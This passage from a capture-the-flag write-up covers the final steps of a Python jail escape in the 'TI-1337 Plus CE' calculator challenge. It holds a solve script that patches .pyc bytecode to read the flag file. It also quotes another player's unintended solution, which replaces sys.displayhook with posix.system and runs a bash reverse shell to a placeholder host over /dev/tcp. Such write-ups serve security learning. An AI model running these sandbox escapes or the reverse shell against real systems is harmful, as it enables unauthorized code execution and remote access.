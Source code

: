 And the rest of the solve script:

```python  
run(b"e.pyc", open("flag.pyc", "rb").read().replace(b"iDRi5Mw6yXI4XcTHfh2A",
frozen.encode("utf-8"))+b"\n")  
flag = "/flag."+re.compile(r'\x1B(?:[@-Z\\-_]|\[[0-?]*[ -/]*[@-~])').sub('',
run(b"f", b"import e\n")).split("flag.")[1].split(".")[0]+".txt"  
run(b"g.pyc", open("flag.pyc", "rb").read().replace(b"iDRi5Mw6yXI4XcTHfh2A",
frozen.encode("utf-8")).replace(b"z\x04ls /", b"z"+bytes((4+len(flag),))+b"cat
"+flag.encode("utf-8"))+b"\n")  
print(run(b"h", b"import g\n"))  
```

And, finally, the flag:

```  
[kmh@kmh solve]$ python3 solve.py  
Welcome to the TI-1337 Plus CE!  
Enter your username: 1. Start new session  
2. Restore session  
What would you like to do? Session name: You can use variables and math
operations. Results of expressions will be outputted.  
Enter your calculations:  
> > dice{a_ja1lbr0k3n_calcul4t0r?!}  
```

## All that work was unnecessary...

[justCatTheFish](https://twitter.com/justCatTheFish) blew my mind with this
solution:

```python  
from sys import __dict__ as sysd  
from __main__ import __dict__ as myd  
from posix import system as displayhook; sysd |= myd; 'bash -c "bash -i >&
/dev/tcp/xx.xx.xx.xx/nnnn 0>&1"';  
```

Another clever use of `IMPORT_FROM`! By importing `__dict__` from the main
module (which contains variables you assign) and another module and "or"ing
them, you can write into the namespace of the other module. The function used
to print in the Python REPL is a global in the `sys` module, so changing that
to `posix.system` pops a shell. I'm super happy with this as an unintended
solution and not disappointed at all.

Original writeup (https://kmh.zone/blog/2021/02/07/ti1337-plus-ce/).